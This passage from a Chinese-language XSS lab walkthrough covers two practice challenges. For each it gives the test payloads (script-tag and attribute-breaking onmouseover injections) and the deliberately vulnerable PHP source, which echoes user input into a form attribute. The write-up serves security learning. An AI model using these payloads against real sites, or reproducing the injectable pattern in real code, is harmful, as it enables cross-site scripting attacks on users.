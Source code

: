 ##### 挑战二

```shell
//初步测试,发现payload直接输出
`<script>alert('xss')</script>`
```

![image-20200828140956492](/images/XSS/image-20200828140956492.png)

```shell
//满足闭合,观察输入payload时输出
`"><script>alert('xss')</script>`
```

```shell
//对变量经过htmlspecialchars函数过滤
<?php 
ini_et("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form action=level2.php method=GET>
<input name=keyword  value="'.$str.'">
<input type=submit name=submit value="搜索"/>
</form>
</center>';
?>
<center><img src=level2.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
```

`Result`

![image-20200828140717307](/images/XSS/image-20200828140717307.png)

##### 挑战三

```shell
//闭合测试，发现>被转义了
`><script>alert('xss')</script>`
```

![image-20200828142634784](/images/XSS/image-20200828142634784.png)

```shell
//不使用<等类似字符进行测试
`'onmouseover=alert(1)//`
```

```shell
//对变量经过两次htmlspecialchars函数过滤
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>"."<center>
<form action=level3.php method=GET>
<input name=keyword  value='".htmlspecialchars($str)."'>
<input type=submit name=submit value=搜索 />
</form>
</center>";
?>
```
